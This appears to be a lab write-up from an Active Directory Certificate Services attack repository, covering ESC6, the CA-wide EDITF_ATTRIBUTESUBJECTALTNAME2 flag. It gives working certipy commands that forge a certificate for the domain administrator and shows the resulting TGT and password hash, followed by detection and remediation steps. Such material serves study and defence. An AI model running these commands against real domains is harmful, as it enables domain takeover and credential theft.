

# ESC6 — EDITF_ATTRIBUTESUBJECTALTNAME2 on the CA

**Impact:** low-priv user → **Domain Admin** using *any* template
**Lab status:** ✅ verified end-to-end

---

## Concept

ESC1 needs a *specific* misconfigured template. ESC6 removes that requirement by
flipping a switch on the **CA itself**: the `EDITF_ATTRIBUTESUBJECTALTNAME2` bit
in the CA's policy `EditFlags`.

With this flag set, the CA honours a **user-supplied SAN in any request**, even
for templates that build the subject from AD. The built-in `User` template — which
every domain user can enroll — becomes an ESC1. One CA-wide flag turns the entire
PKI into an escalation surface.



---

## Configuration in the lab

Set during deployment on the CA:

```powershell
certutil -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
Restart-Service certsvc
```

Verify:

```bash
certipy find -u lowpriv@adescrtl.lab -p 'Lab12345!' -dc-ip 10.0.0.5 -stdout
# User Specified SAN : Enabled
```

---

## Exploitation

No special template needed — use the stock `User` template and inject the SAN:

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template User \
  -upn administrator@adescrtl.lab \
  -sid 'S-1-5-21-3743172807-389476742-3060699965-500'

certipy auth -pfx administrator.pfx -dc-ip 10.0.0.5
```

```
[*] Got TGT
[*] Got hash for 'administrator@adescrtl.lab':
    aad3b435b51404eeaad3b435b51404ee:9d6a0157f349c85398948b6a90a2b6e9
```

> This is the path that first popped the lab — it works with a template every
> domain user can already enroll, which is exactly what makes ESC6 so dangerous.

---

## Detection & defence

- **Clear the flag** and keep it clear:

  ```powershell
  certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
  Restart-Service certsvc
  ```

- This flag is a CA-wide backdoor; it should **never** be set on an Enterprise CA
  that issues authentication certificates. Audit it across every CA.
- Detect via CA configuration monitoring and `certipy find` (*User Specified SAN:
  Enabled*).
- The SID security extension ([ESC16](ESC16.md)) mitigates the impact even here,
  since the spoofed SAN won't match the requester's real SID.
